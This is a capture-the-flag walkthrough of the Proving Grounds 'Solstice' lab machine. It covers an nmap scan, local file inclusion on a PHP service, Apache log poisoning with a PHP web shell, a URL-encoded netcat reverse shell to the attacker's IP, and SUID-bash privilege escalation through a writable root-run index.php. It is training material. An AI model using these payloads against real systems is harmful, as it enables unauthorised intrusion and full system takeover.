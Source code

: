 ```yaml
---
layout: default
title: Solstice
parent: Proving Grounds Play
nav_order: 8
---
```


# Scanning

---

```bash
──(vagrant㉿kali)-[~/Documents/PG/PLAY/solstice]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.222.72
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 23:19 EDT
Nmap scan report for 192.168.222.72
Host is up (0.086s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        pyftpdlib 1.5.6                                                              | ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.222.72:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp       Exim smtpd
| smtp-commands: solstice Hello nmap.scanme.org [192.168.45.217], SIZE 52428800, 8BITMIME, PIPELINING, C
HUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
2121/tcp  open  ftp        pyftpdlib 1.5.6
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.222.72:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
3128/tcp  open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
54787/tcp open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  ftp        FreeFloat ftpd 1.00
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

# Enumeration

---

## 8593 - HTTP

Clicking the _Book List_ link directs to a page that looks susceptible to LFI.

![main](../../../assets/images/ctfs/proving_grounds/solstice/main.png)

![book_list](../../../assets/images/ctfs/proving_grounds/solstice/book_list.png)

Running a simple test we can display _/etc/passwd_

![lfi](../../../assets/images/ctfs/proving_grounds/solstice/lfi.png)

# Exploitation

---

## LFI

Start by poisoning the Apache2 access log with a PHP web shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/solstice]
└─$ nc -nv 192.168.222.72 80
(UNKNOWN) [192.168.222.72] 80 (http) open
GET /<?php system($_GET['cmd']); ?>
HTTP/1.1 400 Bad Request
Date: Sat, 04 Nov 2023 03:37:05 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>

```

View _/var/log/apache2/access.log_ to see the 400 GET request we sent through netcat.

![log](../../../assets/images/ctfs/proving_grounds/solstice/log.png)

Test RCE with the PHP web shell in the access log.

```bash
URL: http://192.168.222.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=id
```

![rce](../../../assets/images/ctfs/proving_grounds/solstice/rce.png)

Use _revshellgen_ to generate a nc-mknod reverse shell one-liner.

```bash
# Generate reverse shell-oneliner
revshellgen -i 192.168.45.191 -p 9001 -t nc-mknod | tail -n 1

# URL encode the payload
urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.191 9001 1>/tmp/l"

# Run the following URL to get a reverse shell
URL: 192.168.170.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.191%209001%201%3E%2Ftmp%2Fl
```

After executing the payload in our PHP web shell we get a reverse shell on our netcat listener.

![shell](../../../assets/images/ctfs/proving_grounds/solstice/shell.png)

# Post-Exploitation

---

## SUID Permissions

```bash
find / -perm -u=s -type f 2>/dev/null
```

The SUID bit on _/var/tmp/sv_ is interesting

![suid](../../../assets/images/ctfs/proving_grounds/solstice/suid.png)

## Enumerate Processes

```bash
ps aux | grep -i 'root' --color=auto
```

![proc](../../../assets/images/ctfs/proving_grounds/solstice/proc.png)

We know from checking SUID directories that _/var/tmp/sv_ has the SUID bit set.

We have full read/write to _/var/tmp/sv/index.php_

![index](../../../assets/images/ctfs/proving_grounds/solstice/index.png)

Edit _index.php_ to execute a PHP system command that generates a root shell by copying _/bin/bash_ to _/var/tmp/bash_

```bash
<?php
echo "You've been pwned!!!!";
system("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
?>
```

![nano](../../../assets/images/ctfs/proving_grounds/solstice/nano.png)

We now need to _curl_ the internally accessible web service running on port 57 in order to execute _index.php_ and generate our
malicious _/var/tmp/bash_ binary.

![curl](../../../assets/images/ctfs/proving_grounds/solstice/curl.png)

Navigate to _/var/tmp_ to see our exploit.

![var_tmp](../../../assets/images/ctfs/proving_grounds/solstice/var_tmp.png)

Execute our malicious _bash_ binary with the _-p_ flag to persist root privileges

![bash](../../../assets/images/ctfs/proving_grounds/solstice/bash.png)
